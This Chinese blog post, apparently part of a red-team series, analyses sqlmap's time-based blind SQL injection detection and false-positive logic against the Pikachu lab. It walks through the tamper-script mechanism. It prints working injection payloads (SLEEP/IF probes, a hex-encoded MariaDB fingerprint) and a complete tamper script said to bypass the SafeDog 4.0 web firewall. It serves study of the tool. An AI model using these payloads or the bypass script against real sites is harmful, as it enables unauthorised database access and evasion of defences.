红队基础设施建设与改造（二）——深入理解sqlmap(下)
本文所述的一切技术仅供网络安全研究学习之用，请勿用于任何的违法用途，否则由此所产生的一切后果自负！
在上篇中我们分析了sqlmap的部分检测逻辑，接下来介绍之前没讲完的部分，并且填上tamper这个坑。
我们继续来分析盲注的逻辑，上篇分析的布尔型盲注，本篇分析时间盲注。
还是拿靶场说事，先进行正常输入，可以看到相应时间，并且返回为I don’t care who you are.

再来随便测试几个其他的输入，返回均为I don’t care who you are.即使输入特殊字符产生了错误也不会改变，在靶场中我们知道这是一个时间型盲注，但是在实战中可能往往想不到，那如何来验证是时间型盲注呢，这就需要用到sleep函数，sleep函数用于使查询延迟执行，我们可以在navicat中做样例演示，可以看到同样的一条select 123;语句执行时间不同

所以针对时间型盲注，要判断我们的输入是否执行，只需要加上sleep函数即可，在浏览器的开发人员工具的网络选项卡中，通过瀑布流的形式我们可以看到请求的时间，以下为输入lucy’and sleep (5)#的执行结果，可以看到执行时间超过了五秒

那是否所有的操作都会延迟呢，我们来试试输入一串明显报错的payload，在跟上了一串的单引号后可以看到请求时间明显缩短，说明payload未执行。

根据之前布尔盲注的经验，我们同样可以进行判断，通过if语句判断为真才执行sleep语句，效果如下：
我们所使用的payload为lucy’ and if ((substr(version(),1,1))=‘5’,sleep(5),null)#
sqlmap中的时间盲注就比较简单了，代码如下：

这边看似简单是因为sqlmap使用了响应延迟判断技术，该种技术使用了前文提到的高斯分布，高斯分布可以识别一个响应是否与普通响应产生于一种机制。在sqlmap的xml文件中包含了各种攻击向量，其中常见的向量为

我们在案例中的测试也使用了其中一个向量，成功的向量如下图所示

接下来我们具体分析一下数据包，以下为攻击完整过程的截图

接下来就是紧张刺激的payload分析了，看看wireshark抓到的数据包，由于之前进行了大量其他测试，我们只需要分析time-based Injection即可。追踪到的第一个包是eq50分片

url经过转码后如下：
/pikachu/vul/sqli/sqli_blind_t.php?name=123’ AND (SELECT 1671 FROM (SELECT(SLEEP(5)))GSuc) AND ‘sRRR’=‘sRRR&submit=查询
此时控制台输出进行了两次询问，因为sqlmap疑似发现存在注入

在这之前还有两次和上述相同的发包，应该是用于响应检测。之后就是一系列UNION select的探测，对应的是包含了orderby等参数，与控制台对应输出相同，即1-20列探测。
从77组开始请求地址改变，根据之前的分析此时应该进入了误报检测

以下记录为77开始的payload
name=123' AND (SELECT 3753 FROM (SELECT(SLEEP(5-(IF(57=57,0,5)))))Ndjp) AND 'HxIh'='HxIh
name=123' AND (SELECT 5365 FROM (SELECT(SLEEP(5-(IF(57=65,0,5)))))irpj) AND 'YVSA'='YVSA
name=123' AND (SELECT 7844 FROM (SELECT(SLEEP(5-(IF(57=98,0,5)))))lPgR) AND 'YJgx'='YJgx
name=123' AND (SELECT 9479 FROM (SELECT(SLEEP(5-(IF(98=65,0,5)))))ZaRe) AND 'kXSW'='kXSW
name=123' AND (SELECT 6042 FROM (SELECT(SLEEP(5-(IF(65=65,0,5)))))OReg) AND 'EOyg'='EOyg
name=123' AND (SELECT 9179 FROM (SELECT(SLEEP(5-(IF(98 65,0,5)))))GkMV) AND 'vZOZ'='vZOZ
而从85组开始又出现了新的变化

name=123' AND (SELECT 6734 FROM (SELECT(SLEEP(5-(IF(2152=2152,0,5)))))Abmt) AND 'dqby'='dqby
86组还是原来的发包方式
name=123' AND (SELECT 4418 FROM (SELECT(SLEEP(5-(IF(1431>1430,0,5)))))IQGO) AND 'UneZ'='UneZ
87组进行了数据库版本判断

name=123' AND (SELECT 4121 FROM (SELECT(SLEEP(5-(IF(VERSION() LIKE 0x254d61726961444225,0,5)))))OEbt) AND 'KRkM'='KRkM
其中16进制字符串为%MariaDB%，这是sqlmap进行的指纹判断，之后的五个组也对应了其他几个字段

至此我的wireshark已经开了一万个页面了

这时候突然想到，我为什么不用–proxy参数把sqlmap的流量转发到BURP呢？发现可行之后…猛虎落泪…

通过上述对数据包的分析可知，sqlmap并非一个包成功就判定为成功，同样的包发了三次，之后还有其他按照我们之前分析的逻辑进行构造的包，关键为payload的如下部分：

可以看到四位数字，四个随机字符都是我们在前文中发现的生成部分，对应函数为randomStr函数，为了避免大家忘记这里再放一张图

通过上述分析可见，在进行了第一次成功的注入后，sqlmap会进行误报检测，也就是77组开始的数据包中所使用的IF判断语句，通过加上判断进一步确定目标是否存在注入，如果判断为真即SLEEP语句执行，判断为假则不执行，以下为对应的payload的复现：


sqlmap的误报逻辑分为五层对比，会生成三个数字a<b<c,进行如下五次判定
\ 1. payload(a=a)
\2. payload(a=c）
\3. payload(b=c)
\4. payload(b=b)
\5. payload(b c)
上述的五次判断为和原始发包响应对比，当判定结果分别为FTTFT时发生误报。我们来跟进一下误报逻辑的代码，误报的检测函数为checks.py中的checkFalsePositives（injection）
核心部分代码如下：

可以看到生成了三个随机数，对应上面给大家讲到的abc三个数，然后是五层的对比

通过五层的对比，可以看到我们之前抓到的数据包中五次对比的响应均符合要求不存在误报。
以上为sqlmap的常规工作逻辑以及针对常见注入漏洞的注入检测逻辑。但是在实际过程中，大部分时候并不是sqlmap一把梭就可以getshell的，我们再来分析一下sqlmap的附加功能也是较为强大的功能即sqlmap的tamper脚本（主要是上篇自己给自己挖了坑）。
tamper是sqlmap的拓展脚本，用于对一些字符进行过滤或者实现其他操作，就和nmap的第三方NSE脚本差不多，支持个人开发从外部加载，正如NSE脚本一样，sqlmap也内置了一大堆的tamper

可以看到内置的当中就有64个脚本，我们先来给大家分析一波常用的脚本，再讲讲tamper的开发，首先是针对所有类型数据库的脚本，例如apostrophemask.py

可以看到是用utf8替换引号的脚本，曾经在一次项目中针对老版本的dz还是啥模板的一个站用的时候出现奇效最终成功getshell完成了项目要求。
还有base64encode.py，看名字都知道是用base64替换payload的脚本，现在很多站为了防止注入都会在传入参数时做一个加密（虽然可能并没有什么卵用），这时候就可以通过该脚本加密payload。

还有space2randomblank.py可以将空格用一些随机空白字符代替。

其他更广泛的用途介绍如下表：
| *序号* | *脚本名称* | *注释* |
|---|---|---|
| 1 | 0x2char | 将每个编码后的字符转换为等价表达 |
| 2 | apostrophemask | 单引号替换为Utf8字符 |
| 3 | apostrophenullencode | 替换双引号为%00%27 |
| 4 | appendnullbyte | 有效代码后添加%00 |
| 5 | base64encode | 使用base64编码 |
| 6 | between | 比较符替换为between |
| 7 | bluecoat | 空格替换为随机空白字符，等号替换为like |
| 8 | chardoubleencode | 双url编码 |
| 9 | charencode | 将url编码 |
| 10 | charunicodeencode | 使用unicode编码 |
| 11 | charunicodeescape | 以指定的payload反向编码未编码的字符 |
| 12 | commalesslimit | 改变limit语句的写法 |
| 13 | commalessmid | 改变mid语句的写法 |
| 14 | commentbeforeparentheses | 在括号前加内联注释 |
| 15 | concat2concatws | 替换CONCAT为CONCAT_WS |
| 16 | equaltolike | 等号替换为like |
| 17 | escapequotes | 双引号替换为\\ |
| 18 | greatest | 大于号替换为greatest |
| 19 | halfversionedmorekeywords | 在每个关键字前加注释 |
| 20 | htmlencode | html编码所有非字母和数字的字符 |
| 21 | ifnull2casewhenisnull | 改变ifnull语句的写法 |
| 22 | ifnull2ifisnull | 替换ifnull为if(isnull(A)) |
| 23 | informationschemacomment | 标示符后添加注释 |
| 24 | least | 替换大于号为least |
| 25 | lowercase | 全部替换为小写值 |
| 26 | modsecurityversioned | 空格替换为查询版本的注释 |
| 27 | modsecurityzeroversioned | 添加完整的查询版本的注释 |
| 28 | multiplespaces | 添加多个空格 |
| 29 | nonrecursivereplacement | 替换预定义的关键字 |
| 30 | overlongutf8 | 将所有字符转义为utf8 |
| 31 | overlongutf8more | 以指定的payload转换所有字符 |
| 32 | percentage | 每个字符前添加% |
| 33 | plus2concat | 将加号替换为concat函数 |
| 34 | plus2fnconcat | 将加号替换为ODBC函数{fn CONCAT()} |
| 35 | randomcase | 字符大小写随机替换 |
| 36 | randomcomments | /**/分割关键字 |
| 37 | securesphere | 添加某字符串 |
| 38 | sp_password | 追加sp_password字符串 |
| 39 | space2comment | 空格替换为/**/ |
| 40 | space2dash | 空格替换为–加随机字符 |
| 41 | space2hash | 空格替换为#加随机字符 |
| 42 | space2morecomment | 空格替换为/_/ |
| 43 | space2morehash | 空格替换为#加随机字符及换行符 |
| 44 | space2mssqlblank | 空格替换为其他空符号 |
| 45 | space2mssqlhash | 空格替换为%23%0A |
| 46 | space2mysqlblank | 空格替换为其他空白符号 |
| 47 | space2mysqldash | 空格替换为–%0A |
| 48 | space2plus | 空格替换为加号 |
| 49 | space2randomblank | 空格替换为备选字符集中的随机字符 |
| 50 | symboliclogical | AND和OR替换为&&和|| |
| 51 | unionalltounion | union all select替换为union select |
| 52 | unmagicquotes | 宽字符绕过GPC |
| 53 | uppercase | 全部替换为大写值 |
| 54 | varnish | 添加HTTP头 |
| 55 | versionedkeywords | 用注释封装每个非函数的关键字 |
| 56 | versionedmorekeywords | 使用注释绕过 |
| 57 | xforwardedfor | 添加伪造的HTTP头 |
那么如果我们要自己开发，应该怎么办呢？接下来就讲讲具体的开发方式。
我们新建一个testtmp.py放入tamper目录下
第一行写上调用，PRIORITY为优先级

然后写上级别，对应的属性如下，我们选择LOW就可以

然后是固定结构依赖dependencies和tamper

依赖可以声明适用和不适用的版本信息等，如果无则为pass，如果有如下图所示案例样填写

tamper为主函数，支持payload和**kwargs参数
tamper主要用于修改payload内容，例如我们之前看到的替换和加密等操作。操作结果返回需要return

如果我们需要操作payload，例如对某关键字进行双写，直接进行return即可，编写的脚本如下：

如果该payload需要经过base64，我们再加一层，这时候需要依赖，完整的脚本如下所示：

如果目标服务器启用了一些验证，例如只允许本地访问等，但是校验的为XFF头，这时候我们就需要用到kwargs参数了，具体如下：

在sqlmap的enums.py中我们可以看到引用的优先级的数值

还有数据库的类型参数

这边再丢上一个过4.0SafeDog的tamper脚本，，该脚本是在网上找的，具有较好的参考价值
#!/usr/bin/env python
"""
Copyright (c) 2006-2019 sqlmap developers ([url]http://sqlmap.org/[/url])
See the file 'LICENSE' for copying permission
Author:LUSHUN
"""
from lib.core.data import kb
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
__priority__ = PRIORITY.LOW
def dependencies():
singleTimeWarnMessage("Bypass safedog4.0'%s' only %s" % (os.path.basename(__file__).split(".")[0], DBMS.MYSQL))
def tamper(payload, **kwargs):
payload=payload.replace('AND','/*!11440AND*/')
payload=payload.replace('ORDER','order/*!77777cz*/')
payload=payload.replace("SELECT","/*!11440SELECT*/")
payload=payload.replace("SLEEP(","sleep/*!77777cz*/(")
payload=payload.replace("UPDATEXML(","UPDATEXML/*!77777cz*/(")
payload=payload.replace("SESSION_USER()","/*!11440SESSION_USER()*/")
payload=payload.replace("USER())","USER/*!77777cz*/())")
payload=payload.replace("DATABASE()","DATABASE/*!77777cz*/()")
return payload
写在最后
通过这两篇文章，即使是小白也一定对常见的SQL注入原理以及sqlmap运行的原理有了一定的理解和自己的看法。希望大家在使用工具的时候也了解一下漏洞原理和工具原理。在本次分析以前我也是没想到sqlmap的逻辑如此严密，各种检测手段和数学模型是我始料未及的，但是通过这次的深入分析也学到了不少东西，透过现象看本质才是最关键的。有了如此基础之后在魔改工具的过程中一定能够方便不少，同样地误报检测模型也进行了完善，如果有朝一日开发扫描器相信一定有不小的参考价值。